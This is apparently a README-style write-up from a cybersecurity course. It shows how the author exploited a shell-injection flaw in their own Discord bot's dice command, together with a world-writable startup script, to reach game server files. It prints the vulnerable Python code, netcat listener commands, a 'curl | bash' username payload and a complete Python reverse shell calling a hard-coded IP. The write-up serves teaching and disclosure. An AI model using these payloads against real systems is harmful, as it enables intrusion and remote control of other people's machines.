 # Exploiting Discord Bot Vulnerability to Gain Access to Game Server Files

## Introduction
I own a personal server that hosts both a game server and a Discord bot, which provides various functionalities to players, such as displaying game statistics, rolling dice, and many others.

The Discord bot is a program that continuously listens to messages in a designated chat channel and executes commands or functions depending on the message content.

During a Cybersecurity course, I discovered a vulnerability in the Discord bot’s Python code that allows remote code execution without requiring user interaction. Exploiting this flaw, combined with a misconfiguration in the file permissions of a script, I was able to gain unauthorized access to the game server’s files.

### Server Enviroment
The game server and the Discord bot are running under two different system users to enforce a basic privilege separation:

- The Discord bot runs under `user-a`.
- The game server runs under `user-b`, which owns all the game files.


### Vulnerability
The Vulnerability is a line in the code of the funcion "dice" that permits code injection by changing the username of the Discord Accounts
```python
if message.content.startswith('!dice'):
    dice = random.randint(1,6)
    username = message.author.display_name
    subprocess.run(f'python3 ./logWriter.py {username} {dice}', shell=True)  <---------
    await message.channel.send(f"{username}, hai estratto: {dice}")
```
Since the code is executed in a shell, inserting a ; in the username allows the shell to treat what follows as a separate command instead of passing it as a parameter.
### Misconficuration
In addition to the code injection vulnerability, the system also presented a misconfiguration related to file permissions. The `server_start.sh` script, which is executed at system startup via a crontab entry belonging to `user-b`, was located inside `user-a`'s home directory with permissions set to `rwxrwxrwx`, allowing any user on the system to modify it.

Since this script is executed by the game server process running under `user-b`, modifying its content and then restarting the server makes it possible to execute arbitrary code with `user-b`'s privileges, ultimately granting access to the game server files.


## Threat model
- Attacker has access to send messages in the Discord chat monitored by the bot.  
- Attacker is aware of the injection vulnerability in the bot’s username handling.

## Attacker Setup
The Attacker uses 2 netcat processes, one listening on 8080, the other on 8081.
#### Nat Configuration
![Nat Configuration](images/Nat_Configuration.png)

#### Server process 1
```
while true; do
nc -l -p 8080 -w 1 < response.txt
done
```
#### Server process 2
```
nc -lvnp 8081
```
In the response.txt file there is the payload that the attacker wants to execute.

## Exploit
The reason I did not inject the entire payload directly through the username is due to the 32-character limit imposed on usernames (including spaces).
Instead, I set up a remote listener to serve the full payload.
The exploit consists of injecting a command via the username that instructs the bot to fetch and execute code from a remote response.txt file.
The username I used to achieve this was:
```
;curl ip-attacker:8080 | bash;
```
## Execution

#### Reverse Shell

To obtain a `reverse shell`, I wrote the following content in `response.txt`:

```
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 197

python3 -c
'import socket,subprocess,os;
s=socket.socket();
s.connect(("79.40.232.212",8081));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```
This Python command creates a reverse shell:

- It opens a socket connection to `79.40.232.212` on port `8081`.
- It redirects the socket file descriptor to stdin (`0`), stdout (`1`), and stderr (`2`), effectively binding the shell’s input and output to the network connection.
- It starts an interactive `/bin/sh` shell, allowing the attacker to execute commands remotely through the established connection.
